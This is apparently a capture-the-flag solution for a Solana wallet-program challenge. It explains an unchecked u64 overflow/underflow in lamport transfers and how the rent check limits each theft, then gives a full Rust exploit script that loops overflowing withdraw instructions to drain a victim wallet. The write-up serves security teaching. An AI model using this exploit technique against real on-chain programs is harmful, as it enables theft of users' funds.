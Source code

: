# Solution - Overflow/Underflow

The vulnerability in this contract is an overflow/underflow in the deposit function:

```rs
    **wallet_info.lamports.borrow_mut() -= amount;
    **destination_info.lamports.borrow_mut() += amount;
```

For a large `amount` the `u64` lamports overflow/underflow. If an attacker sets `wallet_info` to the hackers-wallet and `destination_info` to the rich-boi-wallet, he can underflow the `wallet_info` and therefore increase his lamports. On the other hand he can overflow the `destination_info` and therefore decrease the destination lamports. 
See https://play.rust-lang.org/?version=stable&mode=release&edition=2021&gist=c446a40de01a3af7957817ebe199237a

There is one more trick to it, as there is a rent check: 
```rs
    let min_balance = rent.minimum_balance(WALLET_LEN as usize);
    if min_balance + amount > **wallet_info.lamports.borrow_mut() {
        return Err(ProgramError::InsufficientFunds);
    }
```
But this only limits the maximum amount stolen per iteration to min_balance lamports.


example solution by Thomas:

```rust
use borsh::BorshSerialize;
use level2::{WalletInstruction, get_wallet_address};
use solana_program::instruction::{AccountMeta, Instruction};
use solana_program::rent::Rent;
use solana_program::sysvar;



fn hack(env: &mut LocalEnvironment, challenge: &Challenge) {
    // create hackers wallet
    assert_tx_success(env.execute_as_transaction(
        &[level2::initialize(
            challenge.wallet_program,
            challenge.hacker.pubkey(),
        )],
        &[&challenge.hacker],
    ));

    let hacker_wallet = get_wallet_address(challenge.hacker.pubkey(), challenge.wallet_program);

    let to_transfer = Rent::default().minimum_balance(8);
    println!("To transfer: {}", to_transfer);
    //let to_transfer = 1_000_000u64;
    let overflow = (-(to_transfer as i64)) as u64;

    let iters = 10;

    for i in 0..iters {
        let tx = env.execute_as_transaction(
            &[Instruction {
                program_id: challenge.wallet_program,
                accounts: vec![
                    AccountMeta::new(hacker_wallet, false),              // source wallet
                    AccountMeta::new(challenge.hacker.pubkey(), true),   // owner
                    AccountMeta::new(challenge.wallet_address, false),   // target wallet
                    AccountMeta::new_readonly(sysvar::rent::id(), false), // rent
                ],
                data: WalletInstruction::Withdraw { amount: overflow+i }.try_to_vec().unwrap(),
            }],
            &[&challenge.hacker],
        );
        tx.print_named(&format!("haxx {}", i));
    }
    

    let tx = env.execute_as_transaction(
        &[Instruction {
            program_id: challenge.wallet_program,
            accounts: vec![
                AccountMeta::new(hacker_wallet, false),              // source wallet
                AccountMeta::new(challenge.hacker.pubkey(), true),   // owner
                AccountMeta::new(challenge.hacker.pubkey(), false),  // target wallet
                AccountMeta::new_readonly(sysvar::rent::id(), false), // rent
            ],
            data: WalletInstruction::Withdraw { amount: to_transfer*iters-1000 }.try_to_vec().unwrap(),
        }],
        &[&challenge.hacker],
    );
    tx.print_named("hacker withdraw");
}
```
